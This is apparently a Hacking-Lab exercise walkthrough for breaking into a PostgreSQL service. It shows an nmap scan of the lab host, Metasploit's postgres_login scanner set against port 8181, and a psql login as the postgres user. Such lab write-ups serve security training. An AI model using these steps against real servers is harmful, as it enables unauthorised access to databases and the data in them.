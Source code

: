# Metasploit Postgres
## Step 1: Nmap Scanning
```
nmap -v f3f0635d0b2b.i.hacking-lab.com    
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-15 11:37 EDT
Initiating Ping Scan at 11:37
Scanning f3f0635d0b2b.i.hacking-lab.com (192.168.202.14) [4 ports]
Completed Ping Scan at 11:37, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:37
Completed Parallel DNS resolution of 1 host. at 11:37, 0.09s elapsed
Initiating SYN Stealth Scan at 11:37
Scanning f3f0635d0b2b.i.hacking-lab.com (192.168.202.14) [1000 ports]
Discovered open port 80/tcp on 192.168.202.14
Discovered open port 8181/tcp on 192.168.202.14
Completed SYN Stealth Scan at 11:37, 6.96s elapsed (1000 total ports)
Nmap scan report for f3f0635d0b2b.i.hacking-lab.com (192.168.202.14)
Host is up (0.040s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
22/tcp   closed ssh
80/tcp   open   http
8181/tcp open   intermapper
```

## Step 2: Search postgres
```
msfconsole
msf5 > search postgres
```

## Step 3: Use Scanner Postgres Login
```
use auxiliary/scanner/postgres/postgres_login
set RHOST f3f0635d0b2b.i.hacking-lab.com 
show options
set RPORT 8181
exploit
```

## Step 4: Connect to DB
```
 psql -h f3f0635d0b2b.i.hacking-lab.com -p 8181 -U postgres 
 \list
```

## Misc
* https://medium.com/@cryptocracker99/a-penetration-testers-guide-to-postgresql-d78954921ee9

